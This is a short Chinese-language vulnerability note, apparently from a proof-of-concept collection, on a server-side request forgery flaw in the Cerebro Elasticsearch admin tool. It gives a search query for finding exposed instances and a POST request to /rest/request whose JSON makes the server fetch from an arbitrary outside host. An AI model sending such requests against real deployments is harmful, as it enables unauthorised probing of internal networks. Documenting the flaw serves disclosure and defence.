 # Cerebro request SSRF漏洞

## 漏洞描述

Cerebro是使用Scala、Play Framework、AngularJS和Bootstrap构建的开源的基于Elasticsearch Web可视化管理工具。您可以通过Cerebro对集群进行web可视化管理，如执行rest请求、修改Elasticsearch配置、监控实时的磁盘，集群负载，内存使用率等。其中某功能存在SSRF漏洞，攻击者通过发送特定的请求包可以探测内网信息

## 漏洞影响

```
Cerebro
```

## 网络测绘

```
app="Cerebro"
```

## 漏洞复现

主页面

![image-20220524143249335](images/202205241432380.png)

发送请求包

```
POST /rest/request

{"method":"GET","data":"","path":"robots.txt","host":"https://www.baidu.com"}
```

![](images/202205241433022.png)